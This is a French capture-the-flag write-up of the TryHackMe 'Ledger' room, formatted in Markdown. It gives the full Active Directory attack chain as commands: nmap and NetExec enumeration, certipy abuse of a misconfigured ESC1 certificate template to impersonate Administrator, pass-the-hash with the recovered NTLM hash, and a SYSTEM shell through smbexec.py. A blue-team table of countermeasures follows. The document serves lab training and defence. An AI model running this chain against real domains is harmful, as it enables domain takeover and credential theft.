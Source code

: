 
---

# Exemple de reformattage Markdown (extrait de ton write-up)

````markdown
# 🧾 TryHackMe - Ledger – Write-up Complet (FR)

**Room :** [https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`) pour obtenir une exécution de commande en tant qu’administrateur de domaine via une attaque AD CS (ESC1) et la réutilisation de hash NTLM.

---

## 🔍 1. Scan et découverte initiale

### 🔎 Scan Nmap

nmap -Pn -sC -sV -T4 -p- labyrinth.thm.local
````

* Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.
* Ports 389 (LDAP) et 88 (Kerberos) également ouverts, environnement Active Directory confirmé.

### 🛠️ Préparation

Ajout dans `/etc/hosts` :

```
<IP> labyrinth.thm.local thm.local LABYRINTH
```

### 🧪 Tests d'accès invités

nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
```

✅ Plusieurs utilisateurs récupérés, dont deux partagent le même mot de passe.

### 🔐 Accès initial

nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

✅ Connexion confirmée.
Utilisation de Remmina pour ouvrir un accès graphique RDP.
📁 `user.txt` récupéré.

---

## 🧩 2. Exploitation d'AD CS – ESC1

### 🔬 Découverte de la vulnérabilité


certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Modèle de certificat vulnérable : **ServerAuth**.

### ❗ Détails de la faille ESC1

* ESC1 (Enterprise Security Control 1) permet de forger un certificat pour n’importe quel utilisateur, même Domain Admin.
* Conditions :

  * `ENROLLEE_SUPPLIES_SUBJECT` activé
  * `Client Authentication EKU` présent
  * Groupe `Authenticated Users` peut s’enrôler

### 📥 Requête de certificat en se faisant passer pour l’administrateur

certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
  -ca thm-LABYRINTH-CA -template ServerAuth \
  -target labyrinth.thm.local -upn Administrator@thm.local
```

✔️ Un certificat `.pfx` est généré.

### 🪪 Authentification avec le certificat

certipy-ad auth -pfx administrator.pfx
```

✔️ Récupération d’un hash NTLM valide du compte Administrator.

---

## 🔁 3. Test du hash NTLM (Pass-the-Hash)

cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès administrateur confirmé. 🎉

---

## 🚀 4. Exécution de commande à distance (Shell SYSTEM)

smbexec.py -k -hashes :07d677XXXXXXX322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✅ Shell SYSTEM via SMB.
📁 Récupération de `root.txt`.

---

## 🔐 5. Bonnes pratiques défensives (Blue Team)

| Problème                        | Contremesure recommandée                                  |
| ------------------------------- | --------------------------------------------------------- |
| SMB exposé                      | Restreindre les accès SMB aux hôtes autorisés             |
| Pass-the-Hash NTLM              | Activer LAPS, Forcer Kerberos (désactiver NTLM)           |
| ESC1 sur modèles de certificats | Désactiver ENROLLEE\_SUPPLIES\_SUBJECT, restreindre accès |
| Pas de monitoring ADCS          | Auditer les requêtes de certificats                       |
| Pas de journalisation 4625      | Activer l’audit des échecs d’authentification             |
| Aucune segmentation réseau      | Isoler les contrôleurs de domaine                         |
| Pas de détection post-exploit   | Déployer un SIEM avec règles sur smbexec, psexec, wmiexec |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* Surveillez les modèles de certificats.
* Ne laissez pas les utilisateurs choisir leurs propres sujets.
* Sécurisez SMB et éliminez NTLM si possible.
* Déployez la journalisation et les alertes ADCS.

```

